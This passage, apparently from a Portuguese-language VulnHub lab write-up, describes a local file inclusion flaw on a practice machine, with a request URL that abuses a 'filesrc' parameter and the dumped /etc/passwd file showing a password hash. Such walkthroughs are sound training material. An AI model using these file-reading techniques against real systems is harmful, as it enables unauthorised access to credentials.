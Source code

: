 ### Local File Inclusion

Uma outra vulnerabilidade que foi encontrada no sistema, permite ler arquivos via parâmetro GET.

Ao clicar exatamamente em cima do arquivo, podemos verificar que aparece um parametro que permite lermos os arquivos.

```lua
http://192.168.0.3/shell.php?filesrc=/var/www/html/index.html&path=/var/www/html
```

`filesrc=` : Tal parâmetro permite que selecionemos arquivo que sejam autorizados a leitura. Dessa forma, é possível modificar o arquivo pelo parâmetro e acessar outros arquivos do sistema.

![image.png](../assets/img/vulnhub/funboxenum/image104.png)

Dessa forma, conseguimos acessar outros arquivos no sistema. Foi possível realizar uma enumeração de usuários além de encontrar a senha do usuário oracle que está mal configurada no arquivo passwd.

```lua
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

Também é possível ler o arquivo pela opção de edição do mini.php

Ao selecionar a inspeção de elemento e selecionar a caixa de opções, é possível verificar que pode-se modificar o caminho onde o arquivo está configurado para a edição.

![image.png](../assets/img/vulnhub/funboxenum/image105.png)
